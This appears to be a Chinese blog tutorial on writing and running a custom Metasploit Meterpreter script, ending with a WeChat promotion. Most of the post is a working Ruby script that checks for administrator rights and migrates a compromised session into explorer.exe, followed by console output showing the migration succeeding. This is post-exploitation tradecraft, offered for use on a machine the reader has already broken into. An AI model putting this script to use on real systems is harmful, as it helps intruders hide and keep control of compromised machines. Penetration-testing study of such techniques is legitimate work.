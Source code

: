 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit制作并运行自定义Meterpreper脚本
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit制作并运行自定义Meterpreper脚本
lock: need
---
```


# Metasploit制作并运行自定义Meterpreper脚本

注意：运行此脚本的前提是我们已经经过一系列的渗透，成功拿下了Meterpreter命令行。

这个脚本将会检查我们当前用户是否为管理员用户，然后找到explorer.exe进程，并自动迁移到这个进程中。

具体脚本mymet.rb如下：

```
##
# Author 冰河
# Date 2019-01-14
# Description Meterpreter脚本实例，检查 我们当前是否为管理员用户，然后找到exeplorer进程，并自动迁移到这个进程中
##
admin_check=is_admin?
if(admin_check)
  print_good("Current User Is Admin")
else
  print_error("Current User Is Not Admin")
end

session.sys.process.get_processes().each do |x|
  if x['name'].downcase == "explorer.exe"
    print_good("Explorer.exe Process is Running with PID #{x['pid']}")
    explorer_ppid = x['pid'].to_i
    print_good("Migrating to Exeplorer.exe at PID #{explorer_ppid.to_s}")
    session.core.migrate(explorer_ppid)
  end
end
```

接下来，我们将脚本mymet.rb上传到Kali的/usr/share/metasploit-framework/scripts/meterpreter目录下。

首先，我们现在Meterpreter上执行如下命令：

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
meterpreter > getpid
Current pid: 684
meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
2208  2168  explorer.exe       x64   1        liuyazhuang-PC\liuyazhuang    C:\Windows\explorer.exe
```

可以看到当前的用户是管理员权限，当前session绑定的进程ID是684，explorer进程ID为2208

接下来我们在Meterpreter命令行下运行如下命令：

```
run myset
```

输出如下：

```
meterpreter > run mymet 
[+] Current User Is Admin
[+] Explorer.exe Process is Running with PID 2208
[+] Migrating to Exeplorer.exe at PID 2208
```

如下：

![img](https://img-blog.csdnimg.cn/20190115160713658.png)

可以看到，命令成功运行

此时我们再次查看当前session绑定的PID

```
meterpreter > getpid
Current pid: 2208
```

可以看到当前session已经绑定到explorer.exe进程了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
